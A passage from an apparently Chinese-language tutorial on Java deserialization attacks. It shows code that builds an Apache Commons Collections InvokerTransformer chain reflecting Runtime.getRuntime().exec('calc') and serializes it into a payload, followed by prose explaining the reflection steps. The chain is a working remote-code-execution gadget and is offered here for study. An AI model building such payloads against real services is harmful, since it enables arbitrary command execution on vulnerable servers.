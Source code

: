 ```java
                String.class, Class[].class},new Object[] {
                "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class}, new Object[] {
                    null, new Object[0]
            }),
            new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"calc"})
        });
        //chain.transform(123);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream os = new ObjectOutputStream(barr);
        os.writeObject(chain);
        System.out.println(barr);
    }
}
```

这里的操作实现的就是，先通过 InvokerTransformer 实现一个反射得到 Runtime 的 getRuntime 这个 Method 对象，然后再通过 InvokerTransformer 的 former 方法反射通过 Invoke 获取到 getRuntime 的执行结果。

按道理说，只需要给 InvokerTransformer 一个待执⾏的⽅法名，一个参数列表的参数类型，一个参数列表即可，但是这里面为什么会有这两个东西呢？

![1](./img/295.png)

这里需要看一下 getMethod 和 invoke 方法，

![1](./img/296.png)
